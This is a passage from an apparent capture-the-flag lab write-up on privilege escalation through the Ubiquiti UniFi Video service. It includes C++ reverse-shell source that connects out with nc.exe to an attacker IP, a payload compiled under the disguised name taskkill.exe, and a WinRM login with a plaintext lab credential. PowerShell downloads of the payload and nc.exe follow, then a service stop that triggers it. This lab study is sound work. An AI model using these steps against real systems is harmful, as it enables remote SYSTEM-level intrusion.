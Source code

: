 start by prepering c++ revershe shell

```
#include<stdlib.h>

int main()
{

    system("nc.exe -e cmd.exe 10.10.14.8 4444");
    return 0;
}
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250905090403.png)

Compile it with mingw to exe

```
x86_64-w64-mingw32-gcc rev.cpp -o taskkill.exe
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250905090447.png)

Connect to machine and download shell and nc.exe

```
evil-winrm -i 10.10.10.104 -u stacy -p xNnWo6272k7x

cd C:\ProgramData\unifi-video
iwr "http://10.10.14.8/taskkill.exe" -o "taskkill.exe"
iwr "http://10.10.14.8/nc.exe" -o "nc.exe"
```

And stop service

```
Stop-Service "Ubiquiti UniFi Video" 
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250905090926.png)

We got reverse shell as system

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250905091017.png)
